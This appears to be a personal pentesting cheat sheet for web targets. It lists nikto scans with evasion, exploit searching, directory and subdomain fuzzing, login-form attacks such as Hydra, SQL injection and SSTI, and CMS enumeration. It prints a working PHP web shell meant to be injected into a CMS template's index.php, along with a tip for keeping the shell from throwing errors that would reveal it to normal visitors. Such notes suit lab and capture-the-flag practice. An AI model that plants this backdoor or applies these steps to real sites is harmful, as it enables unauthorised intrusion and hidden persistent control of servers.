 ### [[nikto]] 
	All checks:
```bash
nikto --host $URL -C all
```
	With host evasion:
```bash
nikto --host $IP -ssl -evasion 1
```
## Web targets?
- Search for exploits for any running applications. Wappalyzer. [[Searchsploit]] 
```bash
curl $URL | grep "version"
```
- Go to each domain name to check for virtual host routing
- Don't forget to change content length in burpsuite. A quick way to make sure it is correct is to change the method from POST, to GET, back to POST. 
### File and directory fuzzing:
- **Always check the webroot first.**
[[wfuzz]],[[gobuster]],[[nikto]],
- Subdomain busting: FUZZ.victimdomain.com
- View the source
- Check the webroot for: 
	- robots.txt
	-  .svn
	- .DS_STORE
	- .git
### Login form?
[[Hydra]], [[wfuzz]], [[SQL Injection]],[[XSS tricks]],
- Default Credentials
- Error-Message Username Enumeration?
- Templating Engine - Try SSTI

### Wordpress? 
[[wpscan]]
### Joomla? 
[[joomscan]]
Find the version:
```bash
$URL/administrator/manifests/files/joomla.xml
```
### droople? 
[[droopescan]]
### php?
- Are there any hidden parameters? [[wfuzz]] [[gobuster]] 
	php info file? Where is the webroot?
### CMS?
- First check templates. Inject something into index.php like:
```php
<?php
if isset($_REQUEST['cmd']) {
	system ($_REQUEST['cmd']);
}
?>
```
- if you don't put the iffthen 'isset', it will error when anyone hits index.php because it can't find the variable. 
### Custom Wordlists - 
[[cewl]] [[crunch]] 